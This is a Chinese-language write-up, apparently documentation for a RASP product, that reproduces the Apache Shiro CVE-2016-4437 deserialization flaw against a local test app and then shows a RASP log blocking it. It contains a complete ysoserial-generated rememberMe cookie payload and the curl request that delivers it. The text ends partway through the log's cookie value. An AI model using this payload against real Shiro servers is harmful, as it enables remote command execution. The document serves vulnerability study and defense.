

# CVE-2016-4437

## 漏洞简介

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 影响版本

Apache Shiro版本<=1.2.4

## 环境搭建

### web工程准备
可以从 Apache Shiro 官网下载 samples-web 项目，
漏洞存在版本必须 <= shiro-root-1.2.4 由于这个版本依赖的jdk、maven等版本较低，
该web项目在现有的环境下编译会出现各种错误，所以我这里提供一个可部署的war包，
将放在tomcat安装目录下的webapps下运行。
[下载后解压放到tomcat/webapps下](https://gitee.com/xl1605368195/shiro-cve-2016-4437/blob/master/src/main/resources/samples-web.zip)

启动tomcat，tomcat启动后访问samples-web首页

http://localhost:8080/samples-web/


### 构建 playload

用idea 打开 [shiro-cve-2016-4437](https://gitee.com/xl1605368195/shiro-cve-2016-4437.git) 工程

ysoserial-master-d367e379d9-1.jar Add as Library...

输出结果，这个字符串在下面发起http请求时携带
```
rememberMe=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
```



### 发起请求
```
curl 'localhost:8080/samples-web/login.jsp' -H 'cookie:rememberMe=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'
```

### 请求结果

/tmp/kevintest.txt 文件被创建

## RASP防护

开启RASP,再次发起请求

RASP拦截的日志
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "cmdArray":[
        "touch",
        "/tmp/kevintest.txt"
    ],
    "requestURI":"/samples-web/login.jsp",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "ysoserial.Pwner284761418869026.<clinit>(Gadgets.java)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)",
        "sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)",
        "java.lang.reflect.Constructor.newInstance(Constructor.java:423)",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:457)",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:485)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:129)",
        "org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)",
        "java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)",
        "java.util.PriorityQueue.siftDown(PriorityQueue.java:687)",
        "java.util.PriorityQueue.heapify(PriorityQueue.java:736)",
        "java.util.PriorityQueue.readObject(PriorityQueue.java:796)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1185)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2256)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2147)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1646)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:482)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:440)",
        "org.apache.shiro.io.DefaultSerializer.deserialize(DefaultSerializer.java:77)",
        "org.apache.shiro.mgt.AbstractRememberMeManager.deserialize(AbstractRememberMeManager.java:514)",
        "org.apache.shiro.mgt.AbstractRememberMeManager.convertBytesToPrincipals(AbstractRememberMeManager.java:431)",
        "org.apache.shiro.mgt.AbstractRememberMeManager.getRememberedPrincipals(AbstractRememberMeManager.java:396)",
        "org.apache.shiro.mgt.DefaultSecurityManager.getRememberedIdentity(DefaultSecurityManager.java:604)",
        "org.apache.shiro.mgt.DefaultSecurityManager.resolvePrincipals(DefaultSecurityManager.java:492)",
        "org.apache.shiro.mgt.DefaultSecurityManager.createSubject(DefaultSecurityManager.java:342)",
        "org.apache.shiro.subject.Subject$Builder.buildSubject(Subject.java:846)",
        "org.apache.shiro.web.subject.WebSubject$Builder.buildWebSubject(WebSubject.java:148)",
        "org.apache.shiro.web.servlet.AbstractShiroFilter.createSubject(AbstractShiroFilter.java:292)",
        "org.apache.shiro.web.servlet.AbstractShiroFilter.doFilterInternal(AbstractShiroFilter.java:359)",
        "org.apache.shiro.web.servlet.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:125)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{

    },
    "cookies":[
        {
            "httpOnly":false,
            "maxAge":-1,
            "name":"rememberMe",
            "secure":false,
            "value":"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